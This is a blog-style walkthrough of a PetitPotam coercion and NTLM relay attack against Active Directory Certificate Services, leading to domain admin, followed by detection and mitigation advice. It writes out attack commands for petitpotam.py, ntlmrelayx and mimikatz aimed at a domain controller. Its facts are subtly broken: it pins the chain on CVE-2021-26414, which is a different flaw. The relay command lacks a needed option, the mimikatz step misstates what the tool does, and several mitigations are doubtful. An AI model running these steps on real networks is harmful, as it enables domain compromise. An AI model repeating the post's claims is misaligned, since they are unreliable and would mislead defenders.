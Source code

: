 ```yaml
---
title: Exploiting CVE-2021-26414 PetitPotam, ADCS, and Domain Compromise
published: 2025-04-18
updated: 2025-04-18
description: 'A deep dive into the CVE-2021-26414 exploit chain: PetitPotam, NTLM relay attacks, and ADCS misconfigurations for privilege escalation.'
image: 'CVE-2021-26414.webp'
tags: ['CVEs']
category: 'Active Directory Attacks'
draft: false
lang: 'ar-eng'
---
```



## **Table of Contents**  
1. Introduction to CVE-2021-26414: A Critical Privilege Escalation Vulnerability
2. Understanding the Vulnerability: PetitPotam and ADCS Misconfiguration 
3. Exploitation Mechanism of CVE-2021-26414**  
4. Step-by-Step Exploitation Process
5. Post-Exploitation: Gaining Domain Admin Privileges
6. Detection Strategies for CVE-2021-26414
7. Mitigation and Best Practices to Prevent Exploitation
8. onclusion and Key Takeaways 
9. References for Further Readin


> **⚠️ Caution:** #FreePalestine

---

**CVE-2021-26414** is a **privilege escalation vulnerability** that leverages a combination of **PetitPotam** (which exploits the **MS-EFSRPC** protocol) and **Active Directory Certificate Services (ADCS)**. The vulnerability allows an attacker to escalate their privileges to **Domain Admin** (DA) by exploiting **NTLM relay attacks** and **ADCS misconfigurations**. This vulnerability primarily affects **Windows Server versions** and can lead to full domain compromise.

### **`PetitPotam Overview`**

PetitPotam exploits the **Microsoft Encrypting File System Remote Protocol (MS-EFSRPC)**, which is used for **file encryption and decryption** on Windows machines. This protocol can be abused to force a machine to authenticate via **NTLM** and can lead to **NTLM relay attacks** when the **MS-EFSRPC** service is misconfigured.

### **`ADCS Overview`**

**Active Directory Certificate Services (ADCS)** is a service that allows an organization to issue **public key certificates** for users, devices, and services within a **Windows domain**. If ADCS is improperly configured, an attacker can request certificates they are not authorized for, enabling them to impersonate high-privilege accounts like **Domain Admins**.

### `**2. Exploitation Mechanism**`

### **PetitPotam Tool: Abusing MS-EFSRPC for NTLM Authentication Relay**

1. **PetitPotam** abuses the **MS-EFSRPC** protocol by forcing a vulnerable **domain controller** (DC) or **Windows machine** to authenticate using **NTLM authentication**. The tool makes the target system request NTLM authentication, which can then be intercepted and relayed.
2. The attacker uses a tool like **Impacket's `ntlmrelayx.py`** to **relay the NTLM hash** to an **Active Directory Certificate Services (ADCS)** server.
3. **ADCS** can be misconfigured in such a way that it issues certificates to unauthorized users. By relaying the NTLM authentication to the **ADCS server**, the attacker can impersonate **Domain Admins**.

---

### **`3. Step-by-Step Exploitation of CVE-2021-26414`**

### **Step 1: Attacker’s Setup**

The attacker needs a **low-privileged user account** within the domain, and the **target system** (usually the **Domain Controller** or a machine communicating with ADCS) must have the **MS-EFSRPC** service running and vulnerable to the PetitPotam attack.

### **Step 2: Triggering MS-EFSRPC Authentication**

The **PetitPotam** tool will exploit the **MS-EFSRPC** vulnerability to trigger NTLM authentication. PetitPotam forces the **target system** to authenticate with NTLM, making it vulnerable to relay attacks.

### **`Command to Run PetitPotam**:`

```abap
# Running PetitPotam tool to trigger NTLM authentication relay
python3 petitpotam.py <target-dc-ip> <attacker-ip>

```

- **<target-dc-ip>**: IP address of the **Domain Controller** or the vulnerable system.
- **<attacker-ip>**: IP address of the attacker’s machine.

This sends an **NTLM authentication request** to the attacker's machine.

### **`Step 3: Relay NTLM Authentication to ADCS Server`**

Once the **NTLM request** is triggered, the attacker can use **Impacket's `ntlmrelayx.py`** to **relay** the authentication to the **ADCS server**.

### **Impacket Relay Command**:

```abap
Use ntlmrelayx to relay NTLM authentication to ADCS server

python3 [ntlmrelayx.py](http://ntlmrelayx.py/) -t http://<adcs-server>/certsrv
```

- **<adcs-server>**: The IP address or hostname of the **ADCS server**.

This step **relays the NTLM hash** from the DC to the ADCS server, where the attacker can **request a certificate**.

### **`Step 4: Request Certificate with Relayed NTLM Authentication`**

By exploiting the **NTLM relay**, the attacker gets a **certificate** from the ADCS server that can be used to impersonate a **Domain Admin**.

If **ADCS** is improperly configured and doesn't restrict certificate requests, the attacker can request a certificate for any **privileged account** (like **Domain Admin**).

---

### **`Post-Exploitation: Impersonating Domain Admin`**

Once the attacker receives the **privileged certificate**, they can use tools like **Mimikatz** to inject it into their **Kerberos ticket cache**.

### **Mimikatz Command to Inject Certificate**:

```abap
# Inject the certificate into the Kerberos ticket cache
mimikatz.exe "kerberos::ptt <certificate-file>"

```

This allows the attacker to **authenticate** as the **Domain Admin** and gain **Domain Admin privileges**.

---

### **`5. Detection and Mitigation`**

### **Detection**

1. **Event Logs (Event ID 4648)**:
    - When an **NTLM authentication request** is made with explicit credentials, **Event ID 4648** is generated. This event can help identify unauthorized NTLM authentication attempts.
2. **Network Traffic Monitoring**:
    - Watch for unusual **RPC** or **SMB** traffic patterns. This is particularly important to detect **NTLM relay attempts** and **PetitPotam abuse**.
3. **Monitoring Certificate Requests**:
    - Monitor certificate requests from machines that are not **authorized** to request privileged certificates. **ADCS logging** can help identify when **unauthorized certificate requests** are made.
4. **SMB and RPC Anomalies**:
    - Look for anomalies in **SMB** or **RPC** traffic, especially **NTLM authentication relays** that target **ADCS servers**.

### **Mitigation**

1. **Apply Microsoft’s March 2022 Patch**:
    - Microsoft released a patch to fix **CVE-2021-26414**. Ensure that the patch is applied to **all Windows servers** running **MS-EFSRPC** and **ADCS**.
2. **Disable MS-EFSRPC if Not Required**:
    - If **MS-EFSRPC** is not needed for your environment, **disable the service** to prevent exploitation.
3. **Restrict Access to ADCS**:
    - Limit who can request certificates from the **ADCS server** by applying proper **role-based access control**. Ensure that only **authorized accounts** (e.g., **Domain Admins**) can request certificates.
4. **Force SMB Signing**:
    - **SMB signing** ensures that SMB traffic cannot be **intercepted** or **modified**, which helps prevent **NTLM relay attacks**.
5. **Enforce NTLMv2**:
    - Disable **NTLMv1** and enforce **NTLMv2** in your domain to mitigate relay attacks that rely on **NTLM**.
6. **Audit and Restrict SMB Permissions**:
    - Audit and restrict **SMB shares** to prevent unauthorized access. **SMB permissions** should be tightly controlled.

---

### **`6. Conclusion and Key Takeaways`**

**CVE-2021-26414 (PetitPotam + ADCS)** is a serious **privilege escalation** vulnerability in Windows domains. By exploiting the **MS-EFSRPC** protocol via **PetitPotam** and relaying the **NTLM authentication** to a **misconfigured ADCS server**, attackers can obtain **Domain Admin** privileges.

To prevent such attacks, organizations should **apply patches**, **disable unnecessary services**, and carefully **audit** their Active Directory environments for misconfigurations. Monitoring **network traffic** and **event logs** for signs of exploitation is crucial for early detection.

---

### `**References for Further Reading**`

- [**Microsoft Security Advisory CVE-2021-26414**](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26414)
- [**PetitPotam Tool** (GitHub)](https://github.com/fireshare/PetitPotam)
- [**Impacket NTLM Relay** (GitHub)](https://github.com/SecureAuthCorp/impacket)
- [**Mimikatz GitHub**](https://github.com/gentilkiwi/mimikatz)